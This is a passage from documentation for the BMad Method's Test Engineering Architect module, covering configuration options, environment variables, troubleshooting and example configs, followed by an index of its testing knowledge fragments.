| `auto`      | Auto-detect from project manifests (playwright.config, jest.config, etc.)                                  |
| `frontend`  | Browser-based tests (Playwright/Cypress), browser install in CI, burn-in enabled                           |
| `backend`   | API/unit tests (pytest, JUnit, Go test, Jest/Vitest, etc.), no browser install, burn-in skipped by default |
| `fullstack` | Both frontend and backend tests, full CI pipeline                                                          |

**Affects Workflows:**

- `ci` - Stack-conditional pipeline stages (browser install, burn-in)
- `framework` - Framework scaffold adapts to stack type

**Example:**

```yaml
test_stack_type: 'fullstack'
```

---

### ci_platform

CI/CD platform for pipeline generation.

**Schema Location:** `src/module.yaml` (TEA module config)

**User Config:** `_bmad/tea/config.yaml`

**Type:** `string`

**Default:** `"auto"`

**Options:** `"auto"` | `"github-actions"` | `"gitlab-ci"` | `"jenkins"` | `"azure-devops"` | `"harness"` | `"circle-ci"` | `"other"`

**Purpose:** Controls which CI template is used for pipeline generation.

When set to `"auto"`, TEA detects the platform by scanning for existing CI configuration files (`.github/workflows/`, `.gitlab-ci.yml`, `Jenkinsfile`, `azure-pipelines.yml`, `.harness/`, `.circleci/config.yml`) and falls back to inferring from the git remote.

**Affects Workflows:**

- `ci` - Template selection and output path

**Example:**

```yaml
ci_platform: 'github-actions'
```

---

### test_framework

Detected or configured test framework preference.

**Schema Location:** `src/module.yaml` (TEA module config)

**User Config:** `_bmad/tea/config.yaml`

**Type:** `string`

**Default:** `"auto"`

**Options:** `"auto"` | `"playwright"` | `"cypress"` | `"jest"` | `"vitest"` | `"pytest"` | `"junit"` | `"go-test"` | `"dotnet-test"` | `"rspec"` | `"other"`

**Purpose:** Controls which test framework patterns TEA uses for code generation. When set to `"auto"`, TEA detects from project configuration files and manifests. Supports both frontend (Playwright, Cypress, Jest, Vitest) and backend (pytest, JUnit, Go test, dotnet test, RSpec) frameworks.

**Affects Workflows:**

- `framework` - Scaffold generation
- `ci` - Test commands in pipeline
- `atdd` - Test code generation patterns
- `automate` - Test code generation patterns

**Example:**

```yaml
test_framework: 'playwright'
```

---

## Core BMM Configuration (Inherited by TEA)

TEA also uses core BMM configuration options from `_bmad/tea/config.yaml`:

### output_folder

**Type:** `string`

**Default:** `_bmad-output`

**Purpose:** Base output folder for core BMM artifacts. TEA writes test artifacts under `test_artifacts` (defaults to `{output_folder}/test-artifacts`).

**Example:**

```yaml
output_folder: _bmad-output
```

**TEA Output Files (under `{test_artifacts}`):**

- `test-design-architecture.md` + `test-design-qa.md` (from `test-design` system-level - TWO documents)
- `test-design-epic-N.md` (from `test-design` epic-level)
- `test-review.md` (from `test-review`)
- `traceability-matrix.md` (from `trace` Phase 1)
- `gate-decision-{gate_type}-{story_id}.md` (from `trace` Phase 2)
- `nfr-assessment.md` (from `nfr-assess`)
- `automation-summary.md` (from `automate`)
- `atdd-checklist-{story_id}.md` (from `atdd`)

---

### user_skill_level

**Type:** `enum`

**Options:** `beginner` | `intermediate` | `expert`

**Default:** `intermediate`

**Purpose:** Affects how TEA explains concepts in chat responses

**Example:**

```yaml
user_skill_level: beginner
```

**Impact on TEA:**

- **Beginner:** More detailed explanations, links to concepts, verbose guidance
- **Intermediate:** Balanced explanations, assumes basic knowledge
- **Expert:** Concise, technical, minimal hand-holding

---

### project_name

**Type:** `string`

**Default:** Directory name

**Purpose:** Used in TEA-generated documentation and reports

**Example:**

```yaml
project_name: my-awesome-app
```

**Used in:**

- Report headers
- Documentation titles
- CI configuration comments

---

### communication_language

**Type:** `string`

**Default:** `english`

**Purpose:** Language for TEA chat responses

**Example:**

```yaml
communication_language: english
```

**Supported:** Any language (TEA responds in specified language)

---

### document_output_language

**Type:** `string`

**Default:** `english`

**Purpose:** Language for TEA-generated documents (test designs, reports)

**Example:**

```yaml
document_output_language: english
```

**Note:** Can differ from `communication_language` - chat in Spanish, generate docs in English.

---

## Environment Variables

TEA workflows may use environment variables for test configuration.

### Test Framework Variables

**Playwright:**

```bash
# .env
BASE_URL=https://todomvc.com/examples/react/dist/
API_BASE_URL=https://api.example.com
TEST_USER_EMAIL=test@example.com
TEST_USER_PASSWORD=password123
```

**Cypress:**

```bash
# cypress.env.json or .env
CYPRESS_BASE_URL=https://example.com
CYPRESS_API_URL=https://api.example.com
```

### CI/CD Variables

Set in CI platform (GitHub Actions secrets, GitLab CI variables):

```yaml
# .github/workflows/test.yml
env:
  BASE_URL: ${{ secrets.STAGING_URL }}
  API_KEY: ${{ secrets.API_KEY }}
  TEST_USER_EMAIL: ${{ secrets.TEST_USER }}
```

---

## Configuration Patterns

### Development vs Production

**Separate configs for environments:**

```yaml
# _bmad/tea/config.yaml
output_folder: _bmad-output

# .env.development
BASE_URL=http://localhost:3000
API_BASE_URL=http://localhost:4000

# .env.staging
BASE_URL=https://staging.example.com
API_BASE_URL=https://api-staging.example.com

# .env.production (read-only tests only!)
BASE_URL=https://example.com
API_BASE_URL=https://api.example.com
```

### Team vs Individual

**Team config (committed):**

```yaml
# _bmad/tea/config.yaml.example (committed to repo)
project_name: team-project
output_folder: _bmad-output
tea_use_playwright_utils: true
tea_browser_automation: 'none'
tea_execution_mode: 'sequential'
```

**Individual config (typically gitignored):**

```yaml
# _bmad/tea/config.yaml (user adds to .gitignore)
user_name: John Doe
user_skill_level: expert
tea_browser_automation: 'auto' # Individual preference
tea_execution_mode: 'auto' # Capability-aware preference
```

### Monorepo Configuration

**Root config:**

```yaml
# _bmad/tea/config.yaml (root)
project_name: monorepo-parent
output_folder: _bmad-output
```

**Package-specific:**

```yaml
# packages/web-app/_bmad/tea/config.yaml
project_name: web-app
output_folder: ../../_bmad-output/web-app
tea_use_playwright_utils: true

# packages/mobile-app/_bmad/tea/config.yaml
project_name: mobile-app
output_folder: ../../_bmad-output/mobile-app
tea_use_playwright_utils: false
```

---

## Configuration Best Practices

### 1. Use Version Control Wisely

**Commit:**

```
_bmad/tea/config.yaml.example    # Template for team
.nvmrc                            # Node version
package.json                      # Dependencies
```

**Recommended for .gitignore:**

```
_bmad/tea/config.yaml            # User-specific values
.env                              # Secrets
.env.local                        # Local overrides
```

### 2. Document Required Setup

**In your README:**

```markdown
## Setup

1. Install BMad

2. Copy config template:
   cp \_bmad/tea/config.yaml.example \_bmad/tea/config.yaml

3. Edit config with your values:
   - Set user_name
   - Enable tea_use_playwright_utils if using playwright-utils
   - Set tea_browser_automation mode (auto, cli, mcp, or none)
   - Set tea_execution_mode (auto, subagent, agent-team, or sequential)
```

### 3. Validate Configuration

**Check config is valid:**

```bash
# Check TEA config is set
cat _bmad/tea/config.yaml | grep tea_use

# Verify playwright-utils installed (if enabled)
npm list @seontechnologies/playwright-utils

# Verify MCP servers configured (if enabled)
# Check your IDE's MCP settings
```

### 4. Keep Config Minimal

**Don't over-configure:**

```yaml
# ❌ Bad - overriding everything unnecessarily
project_name: my-project
user_name: John Doe
user_skill_level: expert
output_folder: custom/path
planning_artifacts: custom/planning
implementation_artifacts: custom/implementation
project_knowledge: custom/docs
tea_use_playwright_utils: true
tea_browser_automation: "auto"
tea_execution_mode: "auto"
communication_language: english
document_output_language: english
# Overriding 11 config options when most can use defaults

# ✅ Good - only essential overrides
tea_use_playwright_utils: true
tea_execution_mode: "auto"
output_folder: brain/knowledge/docs_legacy/testing
# Only override what differs from defaults
```

**Use defaults when possible** - only override what you actually need to change.

---

## Troubleshooting

### Configuration Not Loaded

**Problem:** TEA doesn't use my config values.

**Causes:**

1. Config file in wrong location
2. YAML syntax error
3. Typo in config key

**Solution:**

```bash
# Check file exists
ls -la _bmad/tea/config.yaml

# Validate YAML syntax
npm install -g js-yaml
js-yaml _bmad/tea/config.yaml

# Check for typos (compare to module.yaml)
diff _bmad/tea/config.yaml src/module.yaml
```

### Playwright Utils Not Working

**Problem:** `tea_use_playwright_utils: true` but TEA doesn't use utilities.

**Causes:**

1. Package not installed
2. Config file not saved
3. Workflow run before config update

**Solution:**

```bash
# Verify package installed
npm list @seontechnologies/playwright-utils

# Check config value
grep tea_use_playwright_utils _bmad/tea/config.yaml

# Re-run workflow in fresh chat
# (TEA loads config at workflow start)
```

### Browser Automation Not Working

**Problem:** `tea_browser_automation` set to `"auto"` or `"cli"` or `"mcp"` but no browser opens.

**Causes:**

1. CLI not installed globally (for `cli` or `auto` mode)
2. MCP servers not configured in IDE (for `mcp` or `auto` mode)
3. Browser binaries missing

**Solution:**

```bash
# For CLI mode: verify CLI is installed
playwright-cli --version

# For MCP mode: check MCP package available
npx @playwright/mcp@latest --version

# Install browsers
npx playwright install

# Verify IDE MCP config (for MCP mode)
# Check ~/.cursor/config.json or VS Code settings
```

### Config Changes Not Applied

**Problem:** Updated config but TEA still uses old values.

**Cause:** TEA loads config at workflow start.

**Solution:**

1. Save `_bmad/tea/config.yaml`
2. Start fresh chat
3. Run TEA workflow
4. Config will be reloaded

**TEA doesn't reload config mid-chat** - always start fresh chat after config changes.

---

## Configuration Examples

### Recommended Setup (Full Stack)

```yaml
# _bmad/tea/config.yaml
project_name: my-project
user_skill_level: beginner # or intermediate/expert
output_folder: _bmad-output
tea_use_playwright_utils: true # Recommended
tea_use_pactjs_utils: false # Recommended unless you actively use contract testing
tea_pact_mcp: 'none' # Recommended unless you already use PactFlow/Broker
tea_browser_automation: 'auto' # Recommended
tea_execution_mode: 'auto' # Recommended - capability-aware mode selection
tea_capability_probe: true # Recommended - fallback safely if mode unsupported
```

**Why recommended:**

- Playwright Utils: Production-ready fixtures and utilities
- Pact.js Utils: Leave disabled until the project explicitly needs contract testing
- Browser automation (auto): Smart CLI/MCP selection with fallback
- Together: The three-part stack (see [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md))

**Prerequisites:**

```bash
npm install -D @seontechnologies/playwright-utils
# Optional contract-testing stack:
# npm install -D @seontechnologies/pactjs-utils @pact-foundation/pact
# npm install -g @smartbear/mcp
npm install -g @playwright/cli@latest  # For CLI mode
# Configure MCP servers in IDE (see Configure Browser Automation guide)
```

**Best for:** Everyone (beginners learn good patterns from day one)

---

### Minimal Setup (Learning Only)

```yaml
# _bmad/tea/config.yaml
project_name: my-project
output_folder: _bmad-output
tea_use_playwright_utils: false
tea_use_pactjs_utils: false
tea_pact_mcp: 'none'
tea_browser_automation: 'none'
tea_execution_mode: 'sequential'
tea_capability_probe: true
```

**Best for:**

- First-time TEA users (keep it simple initially)
- Quick experiments
- Learning basics before adding integrations

**Note:** Can enable integrations later as you learn

---

### Monorepo Setup

**Root config:**

```yaml
# _bmad/tea/config.yaml (root)
project_name: monorepo
output_folder: _bmad-output
tea_use_playwright_utils: true
tea_use_pactjs_utils: false
tea_pact_mcp: 'none'
tea_execution_mode: 'auto'
```

**Package configs:**

```yaml
# apps/web/_bmad/tea/config.yaml
project_name: web-app
output_folder: ../../_bmad-output/web

# apps/api/_bmad/tea/config.yaml
project_name: api-service
output_folder: ../../_bmad-output/api
tea_use_playwright_utils: false  # Using vanilla Playwright only
tea_use_pactjs_utils: true       # API service uses contract testing utilities
tea_pact_mcp: 'mcp'              # Optional broker interaction via MCP
tea_execution_mode: 'subagent' # Prefer subagent orchestration in API package
```

---

### Team Template

**Commit this template:**

```yaml
# _bmad/tea/config.yaml.example
# Copy to config.yaml and fill in your values

project_name: your-project-name
user_name: Your Name
user_skill_level: intermediate # beginner | intermediate | expert
output_folder: _bmad-output
planning_artifacts: _bmad-output/planning-artifacts
implementation_artifacts: _bmad-output/implementation-artifacts
project_knowledge: docs

# TEA Configuration (Recommended baseline)
tea_use_playwright_utils: true # Recommended - production-ready utilities
tea_use_pactjs_utils: false # Opt in only if your service uses contract testing
tea_pact_mcp: 'none' # Opt in only if your service uses PactFlow/Broker
tea_browser_automation: 'auto' # Recommended - smart CLI/MCP selection
tea_execution_mode: 'auto' # Recommended - capability-aware team/subagent fallback
tea_capability_probe: true # Recommended - safe fallback

# Languages
communication_language: english
document_output_language: english
```

**Team instructions:**

```markdown
## Setup for New Team Members

1. Clone repo
2. Copy config template:
   cp \_bmad/tea/config.yaml.example \_bmad/tea/config.yaml
3. Edit with your name and preferences
4. Install dependencies:
   npm install
5. (Optional) Enable playwright-utils:
   npm install -D @seontechnologies/playwright-utils
   Set tea_use_playwright_utils: true
6. (Optional) Enable pactjs-utils:
   npm install -D @seontechnologies/pactjs-utils @pact-foundation/pact
   Set tea_use_pactjs_utils: true
7. (Optional) Enable Pact MCP:
   npm install -g @smartbear/mcp
   Set tea_pact_mcp: 'mcp'
```

---

### Contract Testing Setup (Opt-In)

Use this profile only for services that already use Pact or want TEA to scaffold contract-testing patterns on purpose.

```yaml
tea_use_pactjs_utils: true
tea_pact_mcp: 'none' # Use 'mcp' only if you already use PactFlow/Broker
```

If you also use PactFlow or Pact Broker:

```yaml
tea_use_pactjs_utils: true
tea_pact_mcp: 'mcp'
```

---

## See Also

### How-To Guides

- [Set Up Test Framework](/brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework.md)
- [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md)
- [Configure Browser Automation](/brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md)

### Reference

- [TEA Command Reference](../bmad_repo/commands.md)
- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md)
- [Glossary](../INDEX.md)

### Explanation

- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md)
- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md)

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/reference/knowledge-base.md`
```markdown
---
title: 'TEA Knowledge Base Index'
description: Complete index of TEA's 42 knowledge fragments for context engineering
---

# TEA Knowledge Base Index

TEA uses 42 specialized knowledge fragments for context engineering. These fragments are loaded dynamically based on workflow needs via the `tea-index.csv` manifest.

## What is Context Engineering?

**Context engineering** is the practice of loading domain-specific standards into AI context automatically rather than relying on prompts alone.

Instead of asking AI to "write good tests" every time, TEA:

1. Reads `tea-index.csv` to identify relevant fragments for the workflow
2. Loads only the fragments needed (keeps context focused)
3. Operates with domain-specific standards, not generic knowledge
4. Produces consistent, production-ready tests across projects

**Example:**

```
User runs: `test-design`

TEA reads tea-index.csv:
- Loads: test-quality.md, test-priorities-matrix.md, risk-governance.md
- Skips: network-recorder.md, burn-in.md (not needed for test design)

Result: Focused context, consistent quality standards
```

## How Knowledge Loading Works

### 1. Workflow Trigger

User runs a TEA workflow (e.g., `test-design`)

### 2. Manifest Lookup

TEA reads `src/agents/bmad-tea/resources/tea-index.csv`:

```csv
id,name,description,tags,tier,fragment_file
test-quality,Test Quality,Execution limits and isolation rules,"quality,standards",core,knowledge/test-quality.md
risk-governance,Risk Governance,Risk scoring and gate decisions,"risk,governance",core,knowledge/risk-governance.md
```

### 3. Dynamic Loading

Only fragments needed for the workflow are loaded into context

### 4. Consistent Output

AI operates with established patterns, producing consistent results

## Fragment Categories

### Architecture & Fixtures

Core patterns for test infrastructure and fixture composition.

| Fragment                                                                                                                                                                    | Description                                                          | Key Topics                             |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- | -------------------------------------- |
| [fixture-architecture](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/fixture-architecture.md) | Pure function → Fixture → mergeTests composition with auto-cleanup   | Testability, composition, reusability  |
| [network-first](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/network-first.md)               | Intercept-before-navigate workflow, HAR capture, deterministic waits | Flakiness prevention, network patterns |
| [playwright-config](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/playwright-config.md)       | Environment switching, timeout standards, artifact outputs           | Configuration, environments, CI        |
| [fixtures-composition](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/fixtures-composition.md) | mergeTests composition patterns for combining utilities              | Fixture merging, utility composition   |

**Used in:** `framework`, `test-design`, `atdd`, `automate`, `test-review`

---

### Data & Setup

Patterns for test data generation, authentication, and setup.

| Fragment                                                                                                                                                        | Description                                                  | Key Topics                        |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------ | --------------------------------- |
| [data-factories](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/data-factories.md) | Factory patterns with faker, overrides, API seeding, cleanup | Test data, factories, cleanup     |
| [email-auth](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/email-auth.md)         | Magic link extraction, state preservation, negative flows    | Authentication, email testing     |
| [auth-session](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/auth-session.md)     | Token persistence, multi-user, API/browser authentication    | Auth patterns, session management |

**Used in:** `framework`, `atdd`, `automate`, `test-review`

---

### Network & Reliability

Network interception, error handling, and reliability patterns.

| Fragment                                                                                                                                                                        | Description                                                    | Key Topics                      |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------- | ------------------------------- |
| [network-recorder](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/network-recorder.md)             | HAR record/playback, CRUD detection for offline testing        | Offline testing, network replay |
| [intercept-network-call](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/intercept-network-call.md) | Network spy/stub, JSON parsing for UI tests                    | Mocking, interception, stubbing |
| [error-handling](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/error-handling.md)                 | Scoped exception handling, retry validation, telemetry logging | Error patterns, resilience      |
| [network-error-monitor](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/network-error-monitor.md)   | HTTP 4xx/5xx detection for UI tests                            | Error detection, monitoring     |

**Used in:** `atdd`, `automate`, `test-review`

---

### Test Execution & CI

CI/CD patterns, burn-in testing, and selective test execution.

| Fragment                                                                                                                                                              | Description                                        | Key Topics                   |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------- | ---------------------------- |
| [ci-burn-in](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/ci-burn-in.md)               | Staged jobs, shard orchestration, burn-in loops    | CI/CD, flakiness detection   |
| [burn-in](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/burn-in.md)                     | Smart test selection, git diff for CI optimization | Test selection, performance  |
| [selective-testing](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/selective-testing.md) | Tag/grep usage, spec filters, diff-based runs      | Test filtering, optimization |

**Used in:** `ci`, `test-review`

---

### Quality & Standards

Test quality standards, test level selection, and TDD patterns.

| Fragment                                                                                                                                                                        | Description                                          | Key Topics                         |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------- | ---------------------------------- |
| [test-quality](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/test-quality.md)                     | Execution limits, isolation rules, green criteria    | DoD, best practices, anti-patterns |
| [test-levels-framework](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/test-levels-framework.md)   | Guidelines for unit, integration, E2E selection      | Test pyramid, level selection      |
| [test-priorities-matrix](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/test-priorities-matrix.md) | P0-P3 criteria, coverage targets, execution ordering | Prioritization, risk-based testing |
| [test-healing-patterns](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/test-healing-patterns.md)   | Common failure patterns and automated fixes          | Debugging, healing, fixes          |
| [component-tdd](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/component-tdd.md)                   | Red→green→refactor workflow, provider isolation      | TDD, component testing             |

**Used in:** `test-design`, `atdd`, `automate`, `test-review`, `trace`

---

### Risk & Gates

Risk assessment, governance, and gate decision frameworks.

| Fragment                                                                                                                                                                                          | Description                                                          | Key Topics                            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- | ------------------------------------- |
| [risk-governance](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/risk-governance.md)                                 | Scoring matrix, category ownership, gate decision rules              | Risk assessment, governance           |
| [probability-impact](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/probability-impact.md)                           | Probability × impact scale for scoring matrix                        | Risk scoring, impact analysis         |
| [nfr-criteria](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/nfr-criteria.md)                                       | Security, performance, reliability, maintainability status           | NFRs, compliance, enterprise          |
| [adr-quality-readiness-checklist](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/adr-quality-readiness-checklist.md) | 8-category, 29-criteria framework for testability and NFR compliance | Quality readiness, ADR, NFR checklist |

**Used in:** `test-design`, `nfr-assess`, `trace`

---

### Selectors & Timing

Selector resilience, race condition debugging, and visual debugging.

| Fragment                                                                                                                                                                  | Description                                           | Key Topics                         |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------- | ---------------------------------- |
| [selector-resilience](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/selector-resilience.md) | Robust selector strategies and debugging              | Selectors, locators, resilience    |
| [timing-debugging](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/timing-debugging.md)       | Race condition identification and deterministic fixes | Race conditions, timing issues     |
| [visual-debugging](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/visual-debugging.md)       | Trace viewer usage, artifact expectations             | Debugging, trace viewer, artifacts |

**Used in:** `atdd`, `automate`, `test-review`

---

### Feature Flags & API Patterns

Feature flag testing and pure API testing patterns.

| Fragment                                                                                                                                                                    | Description                                             | Key Topics                   |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------- | ---------------------------- |
| [feature-flags](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/feature-flags.md)               | Enum management, targeting helpers, cleanup, checklists | Feature flags, toggles       |
| [api-testing-patterns](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/api-testing-patterns.md) | Pure API patterns without browser                       | API testing, backend testing |

**Used in:** `test-design`, `atdd`, `automate`

---

### Pact & Contract Testing Integration

Contract testing fundamentals plus Pact.js Utils and Pact MCP integrations.

| Fragment                                                                                                                                                                                        | Description                                                                                                                    | Key Topics                                     |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------- |
| [contract-testing](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/contract-testing.md)                             | Raw Pact patterns, publishing, verification, resilience                                                                        | Contract testing, Pact fundamentals            |
| [pactjs-utils-overview](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pactjs-utils-overview.md)                   | Installation, flow decision tree, utility map                                                                                  | pactjs-utils, CDCT/BDCT, integration strategy  |
| [pactjs-utils-consumer-helpers](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pactjs-utils-consumer-helpers.md)   | Provider-state helpers: `createProviderState`, `toJsonMap`; request/response callback helpers: `setJsonBody`, `setJsonContent` | pactjs-utils, consumer testing, provider state |
| [pactjs-utils-provider-verifier](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pactjs-utils-provider-verifier.md) | `buildVerifierOptions`, `buildMessageVerifierOptions`, broker selectors, tagging                                               | pactjs-utils, provider verification, CI        |
| [pactjs-utils-request-filter](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pactjs-utils-request-filter.md)       | `createRequestFilter`, `noOpRequestFilter` auth/header patterns                                                                | pactjs-utils, request filter, auth injection   |
| [pact-mcp](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pact-mcp.md)                                             | SmartBear MCP tools for provider states, review, can-i-deploy, matrix                                                          | pact-mcp, broker interaction, pactflow         |
| [pact-consumer-framework-setup](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pact-consumer-framework-setup.md)   | Consumer CDC framework scaffolding: directory layout, scripts, CI workflow, and PactV4 test patterns                           | pactjs-utils, consumer CDC, framework setup    |
| [pact-consumer-di](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pact-consumer-di.md)                             | Dependency-injection pattern for Pact consumer tests using real client code                                                    | pact, consumer, DI, contract accuracy          |

**Used in:** `framework`, `test-design`, `atdd`, `automate`, `test-review`, `ci` (conditioned by `tea_use_pactjs_utils` and `tea_pact_mcp`)

---

### Browser Automation

CLI and MCP integration for AI-driven browser automation during test generation.

| Fragment                                                                                                                                                        | Description                                                                                     | Key Topics                                |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------- | ----------------------------------------- |
| [playwright-cli](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/playwright-cli.md) | Token-efficient CLI for AI coding agents: element refs, sessions, snapshots, browser automation | CLI, browser, agent, automation, snapshot |

**Used in:** `atdd`, `automate`, `test-design`, `test-review`, `nfr-assess` (when `tea_browser_automation` is `cli` or `auto`)

---

### Playwright-Utils Integration

Patterns for using `@seontechnologies/playwright-utils` package (9 utilities).

| Fragment                                                                                                                                                                        | Description                                                 | Key Topics                         |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------- | ---------------------------------- |
| [api-request](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/api-request.md)                       | Typed HTTP client, schema validation, retry logic           | API calls, HTTP, validation        |
| [auth-session](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/auth-session.md)                     | Token persistence, multi-user, API/browser authentication   | Auth patterns, session management  |
| [network-recorder](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/network-recorder.md)             | HAR record/playback, CRUD detection for offline testing     | Offline testing, network replay    |
| [intercept-network-call](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/intercept-network-call.md) | Network spy/stub, JSON parsing for UI tests                 | Mocking, interception, stubbing    |
| [recurse](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/recurse.md)                               | Async polling for API responses, background jobs            | Polling, eventual consistency      |
| [log](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/log.md)                                       | Structured logging for API and UI tests                     | Logging, debugging, reporting      |
| [file-utils](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/file-utils.md)                         | CSV/XLSX/PDF/ZIP handling with download support             | File validation, exports           |
| [burn-in](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/burn-in.md)                               | Smart test selection with git diff analysis                 | CI optimization, selective testing |
| [network-error-monitor](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/network-error-monitor.md)   | Auto-detect HTTP 4xx/5xx errors during tests                | Error monitoring, silent failures  |
| [overview](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/overview.md)                             | Playwright Utils overview, fixture-based utility principles | Overview, architecture, principles |

**Note:** `fixtures-composition` is listed under Architecture & Fixtures (general Playwright `mergeTests` pattern, applies to all fixtures).

**Used in:** `framework` (if `tea_use_playwright_utils: true`), `atdd`, `automate`, `test-review`, `ci`

**Official Docs:** <https://seontechnologies.github.io/playwright-utils/>

---

## Fragment Manifest (tea-index.csv)

**Location:** `src/agents/bmad-tea/resources/tea-index.csv`

**Purpose:** Tracks all knowledge fragments and their usage in workflows

**Structure:**

```csv
id,name,description,tags,tier,fragment_file
test-quality,Test Quality,Execution limits and isolation rules,"quality,standards",core,knowledge/test-quality.md
risk-governance,Risk Governance,Risk scoring and gate decisions,"risk,governance",core,knowledge/risk-governance.md
```

**Columns:**

- `id` - Unique fragment identifier (kebab-case)
- `name` - Human-readable fragment name
- `description` - What the fragment covers
- `tags` - Searchable tags (comma-separated)
